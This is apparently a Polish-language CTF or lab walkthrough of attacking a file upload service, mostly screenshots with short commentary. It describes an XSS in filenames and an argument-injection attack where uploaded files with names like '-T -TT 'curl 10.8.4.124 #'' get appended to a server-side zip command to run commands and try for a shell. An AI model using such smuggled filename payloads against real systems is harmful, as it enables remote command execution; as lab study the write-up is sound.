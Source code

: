 Dobra ma być pliczek, który ma tylko uuid4 w nazwie i nic więcej. Bez rozszerzenia.

![{D6BA3DA2-F5FD-4AE5-A5A4-C85893531C93}](https://github.com/user-attachments/assets/9cdd315b-bfd9-492f-8e41-213657f23784)

![{69827811-9309-48D6-AD83-F96BD89D37D5}](https://github.com/user-attachments/assets/99d68969-76ca-41a2-8bf3-65e3e999787c)

tak się pobiera.

XSS w nazwie pliku mamy xd

![{406131E7-87B2-4A96-B924-C56B9C30D43B}](https://github.com/user-attachments/assets/3f4260a1-5dae-4d52-8740-1f8972861a1a)

Jak odpaliłem `capture.php` i puściłem nmapa to coś tam się pojawiło

![{6645FCF5-F348-4BCA-890D-23832B61A88F}](https://github.com/user-attachments/assets/22d1d730-4d36-4570-a12b-93d0a2aa86ff)

![{516DAFB1-0406-4A2C-8041-2A9CA2A0FE06}](https://github.com/user-attachments/assets/d754fac4-afb6-4493-8fba-769cd6376e0a)

![{F481930B-5239-467D-B5EF-8ADD4F17E873}](https://github.com/user-attachments/assets/0c21caeb-fcbb-454d-a9a1-b8b25150c0ac)

WRÓCIŁEM. Spojrzyałem na wiki i nagle stało się to oczywiste :D

![{A4FF65CA-2F88-4FB2-8B84-AC45A4B24E18}](https://github.com/user-attachments/assets/559150a3-eba9-4817-b661-4642960ebad2)

zrobiłem pliczek o nazwie `-h`

![{0381B9D1-841D-406A-A71D-4ACA5621AE8A}](https://github.com/user-attachments/assets/a6de7cf9-925b-456b-ad4b-e09293c916ea)

![{B986C34E-D51D-4062-A110-12150D0A06CF}](https://github.com/user-attachments/assets/6dbb5ec4-52a7-4b62-90b8-cdeaeacabad7)

Gdy próbuję całść pobrać to to `-h` jest doklejane do komendy. Jak widzimy to to komenda linuxowa `zip`. Zatem ładujemy coś z gtfobins i powinno być łatwo.

![{766C3C5F-4C2C-4A6A-820A-E98A83794A30}](https://github.com/user-attachments/assets/36ca475c-ec27-42bd-8a61-25a73b4b562e)

pierwsze problemy przy komendzie `-T -TT 'curl 10.8.4.124 #'`.

![{6C5935F3-2BC0-4282-892C-184C04B2A90A}](https://github.com/user-attachments/assets/2a07fe6f-fa8b-4977-b453-2da3b750da6e)

wgl trudno usunąć teraz te pliki xD
- pliki usunięte i zauważyłem, że jest problem. Znak `/` nie jest akceptowany.

Zresetowałem maszynę lekko ponad 3 razy, bo nie szło inaczej usunąc plików (nie miałem pomysłu jak to zrobić).

MAMY COŚ XD

![{C49E13E8-C02A-4554-B427-AFC8DC96C2FC}](https://github.com/user-attachments/assets/b6add7e2-2c46-487a-a9a7-27c15033f448)

![{4552B762-BC2C-46D9-909D-BE7B33803AA9}](https://github.com/user-attachments/assets/775fce08-79d7-418f-871c-a55006cb9c4d)

pliki muszą być wysyłane w tej kolejności, żeby "dopełniać komendę zipa".
Ale nie dostałem shella, bo... mój plik nazywa się a.sh, a nie s.sh...

![{45D5BE66-0A3D-41F6-AFCC-1D28299E00F1}](https://github.com/user-attachments/assets/588e9076-3a75-4848-a01d-c3d8c311774f)

